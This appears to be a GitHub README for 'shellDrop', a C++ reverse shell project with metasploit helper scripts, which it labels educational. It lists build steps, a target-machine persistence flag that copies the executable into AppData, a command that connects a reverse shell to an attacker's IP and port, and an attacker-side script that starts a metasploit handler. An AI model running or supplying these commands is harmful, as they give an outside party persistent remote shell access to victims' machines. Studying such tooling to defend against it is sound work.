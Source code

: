 
## shellDrop

ShellDrop is an educational reverse shell project written in C++ for learning purposes only.
It is glued together with a bunch of python and bash scripts for the metasploit stuff and the packing into a zip file.

## Build process

The build process is quite simple. Just run the following command in the root directory of the project:

```bash
mkdir build
```

```bash
cd build
```

```bash
cmake ..
```

```bash
cmake --build .
```

## Usage (target machine)

Just run the following command in the build directory of the project:

```bash
cd build
```

- To enable Persistance only (copy the exe into a the AppData folder)

```bash
./shellDrop -ep
```

- To start the reverse shell

```bash
./shellDrop -ip <IP> -p <PORT>
```

## Usage (attacker machine)

Just run the following command in the root directory of the project:

```bash
cd utils
```

- To start the listener and metasploit handler

```bash
python set_metasploit_handler.py <Local IP> <Local Port>
```
